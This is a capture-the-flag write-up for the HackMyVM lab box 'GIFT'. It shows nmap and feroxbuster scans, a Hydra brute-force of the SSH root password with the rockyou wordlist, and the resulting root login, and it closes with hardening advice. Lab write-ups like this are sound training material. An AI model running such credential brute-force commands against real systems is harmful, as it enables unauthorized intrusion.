





+++
date = '2026-08-31T16:45:00+03:00'
draft = false
title = 'GIFT — HackMyVM'
tags = ["HackMyVM", "Linux", "Easy", "SSH", "Hydra", "Brute Force", "Weak Credentials", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

GIFT is a quick and straightforward HackMyVM box that rewarded patience over overthinking. The web server was a dead end serving nothing more than a hint, while the real entry point was SSH, which allowed password authentication for the `root` user. A **Hydra** brute-force against the account using the rockyou wordlist immediately recovered a weak password, granting full root access to the box with no privilege escalation required.

## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target IP (192.168.56.112) to identify running services.

```
nmap -sV -sC -p- 192.168.56.112
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCwvhffyA9Z9cqVhVe0GuixD3HU4XTTTf1CQnN9PbBFckBHxypueBuI9N0WkAOvZLGKI9JkjxzxgQ5vIdzr83IoyrbUBw/nFLwRzsVhBM+JMUqSZ9OHMhg8qQpFIAcdNprgB40DgER+hMrU+yUAqwbNISQC/aE+DCdHNjNqFw6Pf2/+7bp8CbntJAxdh4DtHZAmneKy/2JGKzpJcDxU2L8B5pY9uvajkKVSDXVFe1bJZV9ZirBalgYGgke4sTz5kpIeT3CyEefJie6r7wloIH4CiWtyXDsYGMt5mD2UBCa4GDQaJO5U9F0qjYFa8YdVCOTWdyQvOlFOgqydvAl0LRf6tZKNqVOb/peNf9K8Ucrg4n+IevaGmivhyGXnwbuCuHN1QH/9dzbNbnZwXn2GYtwYdjBy6AmHRX9Jcsdorj4b/r+eCEPvFIm4ESc7qsn4ShtQr9R8fTgrWArJkfLKhr4KdwMZoifAbjrR/G/lj524dS20mbbVLdhjy/8rH/42dN0=
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK4YVSVfGAFEwIJqSel1n33seZLyN+AgGU4rUu5Xrf2LnzQmntddLtLtc1Soqu6SpOi/A6vefQzI+a867uJ3Tw=
|   256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID5tIogpq9Eky8MaFF10Cq48d+nTRmXk0OwWl8J8CNIq
80/tcp open  http    syn-ack ttl 64 nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html)
```

**Key Findings:**

- SSH (22) is running OpenSSH 8.3.
- HTTP (80) is served by nginx but returns a page with no title.

### SSH

Checking the SSH service, I confirmed that password authentication is enabled for connecting users.



### HTTP

Visiting the web server I found nothing useful — just a simple message telling me not to overthink.



Since no web technology version was exposed, I ran **Feroxbuster** with the medium directory wordlist looking for hidden paths.

```
feroxbuster -u http://192.168.56.112 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



I also tried a few different wordlists, but nothing produced a valid result. The web service did not reveal any exploitable entry point, so I returned to SSH.

## Step 2: Initial Access

Because the `root` user had password authentication enabled, I decided to brute-force its password with **Hydra** using the rockyou wordlist.

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.56.112 ssh -t 4
```

Hydra quickly found a match.

```
[22][ssh] host: 192.168.56.112   login: root   password: <REDACTED>
```



With the recovered password, I logged in over SSH as `root`. Already being root, no privilege escalation was needed.

```
ssh root@192.168.56.112
```



## Conclusion

This box was a clean demonstration that a single weak credential can bypass all other hardening. The attack chain was short and sweet:

1. Nmap found SSH with password authentication enabled for `root`.
2. Web enumeration returned only a hint and no exploitable service.
3. **Hydra** brute-forced the `root` password using rockyou.
4. SSH login granted immediate root access.

To secure the environment, the following remediations are recommended:

- **Enforce strong passwords** for `root` and all system accounts.
- **Disable password authentication** in SSH and rely on key-based authentication.
- **Disable direct root login** by setting `PermitRootLogin no` in the SSH configuration.
- **Filter SSH access** with a firewall or restrict it to trusted source IPs.